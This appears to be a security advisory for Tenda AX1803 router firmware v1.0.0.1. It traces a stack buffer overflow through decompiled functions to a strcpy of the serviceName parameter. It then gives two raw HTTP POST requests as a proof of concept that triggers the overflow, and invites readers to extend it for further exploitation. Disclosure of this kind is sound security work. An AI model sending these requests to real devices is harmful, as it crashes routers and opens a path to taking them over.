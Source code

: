 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the serviceName parameter in the function fromAdvSetMacMtuWan

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

## Vulnerability Description

The `form_fast_setting_internet_set` function in Tenda AX1803 v1.0.0.1 first extracts the value of the `netWanType` parameter from the POST request, and then passes this value to the `sub_569BC` function as the third parameter. By controlling the content of the POST request, we set the value of the `netWanType` parameter to 2, which is then passed as the third parameter to the `sub_569BC` function.![QQ截图20240319205702](C:\Users\16673\Desktop\QQ截图20240319205702.png)

In the `sub_569BC` function, the `sprintf` function is utilized to concatenate the `wan1.connecttype` string. Subsequently, the `SetValue` function is employed to assign the value of the environment variable `wan1.connecttype` to the third parameter `a3` passed into the `sub_569BC` function, with a value of 2.

![QQ截图20240319205842](C:\Users\16673\Desktop\QQ截图20240319205842.png)

The focus moves to the `fromAdvSetMacMtuWan` function. Here, the value "2" obtained from the POST request for the environment variable string `wan1.connecttype` is passed to `v6`, triggering the execution of the `sub_8C594` function.![QQ截图20240319211358](C:\Users\16673\Desktop\QQ截图20240319211358.png)

In the `sub_8C594` function, the value of the `serviceName` parameter is extracted from the POST request, and then passed to the `strcpy` function, resulting in a buffer overflow.

## ![QQ截图20240319211701](C:\Users\16673\Desktop\QQ截图20240319211701.png)POC

First SetValue with poc:

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.76.149
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=aaaa
```

Then call fromAdvSetMacMtuWan and trigger overflow.

```
POST /goform/AdvSetMacMtuWan HTTP/1.1
Host: 192.168.76.149
Content-Length: 56
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.76.149
Referer: http://192.168.76.149/mac_clone.html?random=0.7547959184452664&
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

wanMTU=1285&wanSpeed=0&cloneType=0&mac=00:00:00:00:00:01&serviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&serverName=
```

We trigger a stack overflow vulnerability after sending the poc, and you may modify this for further exploiting.

